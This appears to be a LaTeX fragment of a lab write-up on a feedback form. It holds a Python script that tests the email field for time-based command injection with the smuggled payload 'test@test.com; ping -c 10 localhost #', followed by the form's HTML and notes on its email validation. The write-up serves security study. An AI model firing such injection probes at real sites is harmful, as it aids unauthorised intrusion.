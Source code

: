 \documentclass{article}
\begin{document}
\begin{description}
\begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 2}, showspaces=false,showstringspaces=false]
    def check_command_injection(s, url):
        submit_feedback_path = "/feedback/submit"
        command_injection = "test@test.com; ping -c 10 localhost #"
        csrf_token = get_crsf(s, url)   # Retrieve CSRF in order to send a valid request
        data = { 'csrf': csrf_token, 'name': "test", 'email': command_injection,
                'subject': "testing", 'message': "This is a test"}
        res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
        if (res.elapsed.total_seconds() >= 10):
            print("(+) Email field vulnerable to time-based command injection")
        else:
            print("(-) Email field not vulnerable to time-based command injection")

    def main():
        if len(sys.argv) != 2:
            print(f"(-) Usage: {sys.argv[0]} <url>")
            print(f"(-) Example: {sys.argv[0]} www.example.com")
            sys.exit(1)

        url = sys.argv[1]
        print("(+) Checking if email parameter is vulnerable to time-based command injection...")

        s = requests.Session()
        check_command_injection(s, url)


    if __name__ == '__main__':
        main()
  \end{lstlisting}

    \newpage
    \item[Additional analysis: Why only the Email field works while others do not]\leavevmode\par
    First, the reason why only the Email field undergoes format validation can be determined by inspecting the HTML source using Chrome's developer tools. As shown in the source below, the Email field has the attribute \texttt{type="email"}. This means the field uses the built-in HTML5 email format validation.

    \begin{lstlisting}[label={lst:modified-request},caption={HTML source code of the feedback form}]
      ...
      <form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded">
                        <input required type="hidden" name="csrf" value="o0ntQ30pBpol2oz7yfxFirIbXBangH4v">
                        <label>Name:</label>
                        <input required type="text" name="name">
                        <label>Email:</label>
                        <input required type="email" name="email">
                        <label>Subject:</label>
                        <input required type="text" name="subject">
                        <label>Message:</label>
                        <textarea required rows="12" cols="300" name="message"></textarea>
                        <button class="button" type="submit">
                            Submit feedback
                        </button>
                        <span id="feedbackResult"></span>
                    </form>
      ...
    \end{lstlisting}


\end{description}
\end{document}
